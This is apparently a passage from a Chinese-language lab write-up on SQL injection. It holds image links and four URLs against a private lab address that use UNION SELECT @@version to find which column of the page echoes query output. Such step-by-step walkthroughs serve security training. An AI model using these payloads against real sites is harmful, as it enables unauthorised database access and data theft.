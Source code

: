             ![](hx_4.PNG)
            ![](hx_5.PNG)
    - ##### 确定回显位置
         ```
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%20@@version,2,3,4
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%201,2,@@version,4
            http://10.0.2.7/cat.php?id=1%20UNION%20SELECT%201,2,3,@@version
        ```
